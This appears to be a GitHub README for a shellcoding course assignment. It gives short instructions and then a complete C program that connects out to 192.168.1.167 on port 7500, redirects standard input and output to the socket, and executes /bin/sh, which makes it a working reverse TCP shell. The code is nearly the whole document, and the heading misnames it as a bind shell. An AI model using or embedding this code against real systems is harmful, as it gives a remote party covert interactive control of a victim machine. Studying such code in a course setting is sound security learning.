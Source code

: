 Assignment #2, Shell_Reverse_TCP:


Assignment #2: Revere Bind TCP Shell:
=====================================

Instructions:
-------------
* Reverse connect to configured IP and Port
* Exec /bin/sh on successful connection
* IP and Port should be easily configurable

PoC:
----

```
int main(void){
	int fd;
	struct sockaddr_in server_addr;
	char *argv[] = { "/bin/sh", NULL };

	server_addr.sin_family = AF_INET;
	server_addr.sin_port = htons(7500);
	server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");
	
	//socket
	fd = socket(AF_INET, SOCK_STREAM, 0);
	
	//connect
	connect(fd, (struct sockaddr *)&server_addr, 16);
	
	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
	dup2(fd, 0);
	dup2(fd, 1);
	dup2(fd, 2);
	
	//execve /bin/sh
	execve(argv[0], &argv[0], NULL);
	
	return 0;
}
```
